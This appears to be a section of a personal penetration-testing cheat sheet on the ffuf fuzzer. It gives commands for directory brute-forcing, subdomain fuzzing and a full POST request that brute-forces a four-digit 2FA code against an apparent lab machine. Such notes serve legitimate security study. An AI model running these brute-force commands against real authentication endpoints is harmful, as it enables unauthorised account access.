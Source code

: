 ### FFUF

https://olivierkonate.medium.com/subdomain-enumeration-2c6d4c553df4

Brute-force directories/files with specific extensions

```
ffuf -u <URL/FUZZ> -w <wordlist> -e <ext>
```

2FA /POST Bruteforce with FFUF exemple :

```
ffuf -v -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://192.168.236.110/2fa.php -X POST \
     -H "Host: 192.168.236.110" \
     -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
     -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
     -H "Accept-Language: en-US,en;q=0.5" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "Origin: http://192.168.236.110" \
     -H "Referer: http://192.168.236.110/2fa.php" \
     -H "Cookie: PHPSESSID=sodtq3hkqpjf00lb9lktfigse9" \
     -d "2fa_code=FUZZ"
```


Subdomains
```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.marshalled.pg" -u http://192.168.189.237
```


